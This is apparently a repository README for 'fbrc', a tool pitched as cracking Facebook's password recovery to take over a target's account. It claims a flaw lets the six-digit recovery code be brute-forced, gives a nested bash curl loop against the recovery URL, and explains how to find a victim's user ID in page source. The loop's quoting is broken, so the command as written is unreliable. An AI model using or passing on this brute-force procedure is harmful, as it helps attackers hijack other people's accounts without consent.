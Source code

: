 # fbrc
fbrc - FaceBook Recovery Cracker

Prerequisites:

- access to facebook
- target email or phone number

Facebook recovery suffers from a security flaw, that is when user asks for a recovery code, it isn't required to enter this code in the formular for the new password's page to be created.
Thus it's possible to trigger the recovery process and then bruteforce the recovery url.

You can do this with any software or a simple program that will generate a million code (6 digits) and try a GET request like this:

`for i in {0..9}; do for j in {0..9}; do for k in {0..9}; do for l in {0..9}; do for m in {0..9}; do for n in {0..9}; do curl 'https://www.facebook.com/recover/password/?u=&n=$i$j$k$l$m$n |grep password_new; done; done; done; done; done; done`

You must pass the user_id to the `u`parameter, you will find this id in the souce code of the page on the wall of the user, just search for USER_ID.

This curl script is the simplest and will output something only when the code is found, you'll find the code somewhere in the console, just go to the recovery link using the ID and code in a browser.
